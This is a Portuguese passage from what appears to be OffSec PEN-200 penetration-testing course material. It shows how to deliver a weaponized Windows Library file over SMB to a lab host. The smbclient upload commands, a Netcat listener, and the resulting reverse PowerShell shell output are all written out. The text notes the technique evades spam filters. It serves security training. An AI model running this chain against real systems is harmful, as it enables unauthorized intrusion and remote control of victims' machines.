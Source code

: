Em seguida, iniciaremos o servidor web Python3 na porta 8000 para servir **powercat.ps1** , WsgiDAV para nosso compartilhamento WebDAV **/home/kali/webdav** e um ouvinte Netcat na porta 4444.

Para carregar o arquivo de biblioteca para o compartilhamento SMB, usaremos **smbclient** [25](https://portal.offsec.com/courses/pen-200-44065/learning/client-side-attacks-48976/abusing-windows-library-files-49009/obtaining-code-execution-via-windows-library-files-48979#fn-local_id_811-25) com o parâmetro **-c** para especificar o comando **put config.Library-ms . Antes de executarmos smbclient, precisamos alterar nosso diretório atual para o diretório do arquivo de biblioteca. Também excluiremos o arquivo** **test.txt** criado anteriormente do compartilhamento WebDAV.

```
kali@kali:~$ cd webdav

kali@kali:~/webdav$ cd webdav

kali@kali:~/webdav$ rm test.txt

kali@kali:~/webdav$ smbclient //192.168.50.195/share -c 'put config.Library-ms'
Enter WORKGROUP\kali's password: 
putting file config.Library-ms as \config.Library-ms (1.8 kb/s) (average 1.8 kb/s)
```

> Listagem 21 - Carregando nosso arquivo de biblioteca para o compartilhamento SMB na máquina HR137

Depois de colocarmos o arquivo de biblioteca na máquina de destino via smbclient, um usuário simulado no sistema o abre e inicia o shell reverso executando o arquivo de atalho.

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.195] 56839
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
whoami
hr137\hsmith
```

> Listagem 22 - Shell reverso de entrada do HR137

A Listagem 22 mostra que recebemos com sucesso um shell reverso com nossos arquivos de biblioteca e atalho.

Excelente.

Também poderíamos ter combinado essa técnica com nosso ataque de macro anterior do Office ou qualquer outro tipo de ataque do lado do cliente.

Nesta seção, aprendemos sobre os arquivos da Biblioteca do Windows e como transformá-los em uma arma como um primeiro estágio eficaz para entregar um arquivo executável em ataques do lado do cliente. Como segundo estágio, usamos um arquivo de atalho para baixar o PowerCat e iniciar um shell reverso. Os arquivos da Biblioteca do Windows são uma ótima maneira de entregar nossas cargas úteis de segundo estágio sem expô-las a tecnologias de segurança, como filtros de spam.